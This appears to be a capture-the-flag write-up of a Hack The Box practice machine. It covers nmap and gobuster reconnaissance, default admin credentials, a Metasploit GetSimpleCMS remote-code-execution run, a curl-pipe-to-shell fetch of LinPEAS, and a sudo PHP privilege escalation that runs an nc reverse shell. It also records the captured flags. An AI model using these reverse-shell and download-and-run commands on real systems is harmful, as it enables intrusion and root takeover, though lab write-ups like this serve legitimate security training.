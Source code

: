 ############
Boxes Pwned
############



Getting Started - Knowledge check box
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

https://p.ip.fi/BrXY -- terminal logs that contain exploitation of the box using msfconsole (we get user level or non-root permissions here). 

https://p.ip.fi/5iip -- attack vm terminal logs that were used to listen to connections and get the compromised box to connect to us (to escalate privileges)


nmap scan
=========

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge/nmap-scans]
   └─$ nmap -sV --open 10.129.230.124 -oA nmap_scan
   Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 00:35 EDT
   Nmap scan report for 10.129.230.124
   Host is up (0.019s latency).
   Not shown: 998 closed tcp ports (reset)
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 7.06 seconds



nmap full scan
===================================

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge/nmap-scans]
   └─$ nmap -sV --open -p- -oA nmap_full_scan 10.129.230.124 -O
   Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 00:36 EDT
   Nmap scan report for 10.129.230.124
   Host is up (0.017s latency).
   Not shown: 65533 closed tcp ports (reset)
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
   Device type: general purpose|router
   Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
   OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
   OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
   Network Distance: 2 hops
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

   OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 17.57 seconds



Directory enumeration with gobuster
===================================

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge]
   └─$ gobuster dir -u http://10.129.230.124 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
   ===============================================================
   Gobuster v3.6
   by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
   ===============================================================
   [+] Url:                     http://10.129.230.124
   [+] Method:                  GET
   [+] Threads:                 10
   [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
   [+] Negative Status codes:   404
   [+] User Agent:              gobuster/3.6
   [+] Timeout:                 10s
   ===============================================================
   Starting gobuster in directory enumeration mode
   ===============================================================
   /.hta                 (Status: 403) [Size: 279]
   /.htaccess            (Status: 403) [Size: 279]
   /.htpasswd            (Status: 403) [Size: 279]
   /admin                (Status: 301) [Size: 316] [--> http://10.129.230.124/admin/]
   /backups              (Status: 301) [Size: 318] [--> http://10.129.230.124/backups/]
   /data                 (Status: 301) [Size: 315] [--> http://10.129.230.124/data/]
   /index.php            (Status: 200) [Size: 5485]
   /plugins              (Status: 301) [Size: 318] [--> http://10.129.230.124/plugins/]
   /robots.txt           (Status: 200) [Size: 32]
   /server-status        (Status: 403) [Size: 279]
   /sitemap.xml          (Status: 200) [Size: 431]
   /theme                (Status: 301) [Size: 316] [--> http://10.129.230.124/theme/]
   Progress: 4750 / 4750 (100.00%)
   ===============================================================
   Finished
   ===============================================================

/admin works with weak credentials :  
**username:** admin  
**password:** root

Reference:  
https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=31745

.. image:: ../screenshots/boxes/getting-started-knowledge-check/admin-page.png



upgrade to better tty
===================================

.. code-block:: console

   python3 -c 'import pty; pty.spawn("/bin/bash")'



Not able to download LinEnum.sh script
===================================

initial approach : used wget to download the script from a python http server running on the attack VM, didn't work

.. code-block:: console

    www-data@gettingstarted:/home/mrb3n$ wget 10.10.15.44:8000/LinEnum.sh
    wget 10.10.15.44:8000/LinEnum.sh
    --2025-06-24 07:38:10--  http://10.10.15.44:8000/LinEnum.sh
    Connecting to 10.10.15.44:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 46631 (46K) [text/x-sh]
    LinEnum.sh: Permission denied

    Cannot write to ‘LinEnum.sh’ (Permission denied).

another approach : even directly using wget to download the script from github doesnt work :

.. code-block:: console

    www-data@gettingstarted:/home/mrb3n$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    <sercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    --2025-06-24 08:11:56--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... failed: Temporary failure in name resolution.
    wget: unable to resolve host address ‘raw.githubusercontent.com’
    also tried LinPEAS script but no DNS resolution available.

also tried downloading the LinPEAS script, but since it's not able to resolve the host address, i dont think it'll work either :

.. code-block:: console

    www-data@gettingstarted:/home/mrb3n$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
    <g/PEASS-ng/releases/latest/download/linpeas.sh | sh
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:-  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:03 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:05 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:06 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:07 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:08 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:09 --:--:--     0curl: (6) Could not resolve host: github.com


another approach : let's check if we can start an ssh server on the attack vm and get the box to connect to it. if it's possible, we'll try downloading the LinEnum script. It is important for us to use this script to check if there are any other glaring vulnerabilities we can exploit.

--------------HERE--------------------


check which commands require the mrb3n to use sudo
===================================

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ sudo -l
   User www-data may run the following commands on gettingstarted:
       (ALL : ALL) NOPASSWD: /usr/bin/php

Privilege escalation using PHP reverse shell:

.. code-block:: console

   sudo /usr/bin/php -r "system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.44 8443 >/tmp/f');"



obtaining the user.txt flag
===================================

.. code-block:: console

    ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge]
    └─$ msfconsole       
    Metasploit tip: View missing module options with show missing
                                                    
    # cowsay++
    ____________
    < metasploit >
    ------------
        \   ,__,
            \  (oo)____
            (__)    )\
                ||--|| *


        =[ metasploit v6.4.56-dev                          ]
    + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
    + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
    + -- --=[ 9 evasion                                       ]

    Metasploit Documentation: https://docs.metasploit.com/

    msf6 > search exploit getcms

    Matching Modules
    ================

    #  Name                                              Disclosure Date  Rank       Check  Description
    -  ----                                              ---------------  ----       -----  -----------
    0  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


    Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/getsimplecms_unauth_code_exec

    msf6 > use 0 
    [*] No payload configured, defaulting to php/meterpreter/reverse_tcp
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show option
    [-] Invalid parameter "option", use "show -h" for more information
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

    Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    Proxies                     no        A proxy chain of format type
                                            :host:port[,type:host:port][
                                            ...]
    RHOSTS                      yes       The target host(s), see http
                                            s://docs.metasploit.com/docs
                                            /using-metasploit/basics/usi
                                            ng-metasploit.html
    RPORT      80               yes       The target port (TCP)
    SSL        false            no        Negotiate SSL/TLS for outgoi
                                            ng connections
    TARGETURI  /                yes       The base path to the cms
    VHOST                       no        HTTP server virtual host


    Payload options (php/meterpreter/reverse_tcp):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST  192.168.78.128   yes       The listen address (an interface
                                        may be specified)
    LPORT  4444             yes       The listen port


    Exploit target:

    Id  Name
    --  ----
    0   GetSimpleCMS 3.3.15 and before



    View the full module info with the info, or info -d command.

    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set RHOSTS 10.129.63.204
    RHOSTS => 10.129.63.204
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set LHOST tun0LHOST => 10.10.15.44
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > check
    [+] 10.129.63.204:80 - The target is vulnerable.
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show payloads

    Compatible Payloads
    ===================

    #   Name                                        Disclosure Date  Rank    Check  Description
    -   ----                                        ---------------  ----    -----  -----------
    0   payload/cmd/unix/bind_aws_instance_connect  .                normal  No     Unix SSH Shell, Bind Instance Connect (via AWS API)
    1   payload/generic/custom                      .                normal  No     Custom Payload
    2   payload/generic/shell_bind_aws_ssm          .                normal  No     Command Shell, Bind SSM (via AWS API)
    3   payload/generic/shell_bind_tcp              .                normal  No     Generic Command Shell, Bind TCP Inline
    4   payload/generic/shell_reverse_tcp           .                normal  No     Generic Command Shell, Reverse TCP Inline
    5   payload/generic/ssh/interact                .                normal  No     Interact with Established SSH Connection
    6   payload/multi/meterpreter/reverse_http      .                normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTP Stager (Multiple Architectures)
    7   payload/multi/meterpreter/reverse_https     .                normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTPS Stager (Multiple Architectures)
    8   payload/php/bind_perl                       .                normal  No     PHP Command Shell, Bind TCP (via Perl)
    9   payload/php/bind_perl_ipv6                  .                normal  No     PHP Command Shell, Bind TCP (via perl) IPv6
    10  payload/php/bind_php                        .                normal  No     PHP Command Shell, Bind TCP (via PHP)
    11  payload/php/bind_php_ipv6                   .                normal  No     PHP Command Shell, Bind TCP (via php) IPv6
    12  payload/php/download_exec                   .                normal  No     PHP Executable Download and Execute
    13  payload/php/exec                            .                normal  No     PHP Execute Command
    14  payload/php/meterpreter/bind_tcp            .                normal  No     PHP Meterpreter, Bind TCP Stager
    15  payload/php/meterpreter/bind_tcp_ipv6       .                normal  No     PHP Meterpreter, Bind TCP Stager IPv6
    16  payload/php/meterpreter/bind_tcp_ipv6_uuid  .                normal  No     PHP Meterpreter, Bind TCP Stager IPv6 with UUID Support
    17  payload/php/meterpreter/bind_tcp_uuid       .                normal  No     PHP Meterpreter, Bind TCP Stager with UUID Support
    18  payload/php/meterpreter/reverse_tcp         .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
    19  payload/php/meterpreter/reverse_tcp_uuid    .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
    20  payload/php/meterpreter_reverse_tcp         .                normal  No     PHP Meterpreter, Reverse TCP Inline
    21  payload/php/reverse_perl                    .                normal  No     PHP Command, Double Reverse TCP Connection (via Perl)
    22  payload/php/reverse_php                     .                normal  No     PHP Command Shell, Reverse TCP (via PHP)

    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set payload 4
    payload => generic/shell_reverse_tcp
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > run
    [*] Started reverse TCP handler on 10.10.15.44:4444 
    [*] Command shell session 2 opened (10.10.15.44:4444 -> 10.129.63.204:33924) at 2025-06-24 03:35:54 -0400

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@gettingstarted:/var/www/html/theme$ ls
    ls
    Cardinal  Innovation  dFJMmjuOgysIkU.php  naNjathzIqT.php
    www-data@gettingstarted:/$ cd /home
    cd /home
    www-data@gettingstarted:/home$ ls
    ls
    mrb3n
    www-data@gettingstarted:/home$ cd mrb3n
    cd mrb3n
    www-data@gettingstarted:/home/mrb3n$ ls
    ls
    user.txt
    www-data@gettingstarted:/home/mrb3n$ cat user.txt
    cat user.txt
    7002d65b149b0a4d19132a66feed21d8


    `



obtaining the root.txt flag
===================================

Target VM:

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ sudo /usr/bin/php -r "system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.44 8443 >/tmp/f');"

Attack VM:

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/Nibbles]
   └─$ nc -nvlp 8443
   ...
   root@gettingstarted:~# cat root.txt
   f1fba6e9f71efb2630e6e34da6387842



We successfully obtained **user.txt** and **root.txt** by exploiting GetSimpleCMS RCE and using a `sudo misconfiguration` for privilege escalation.

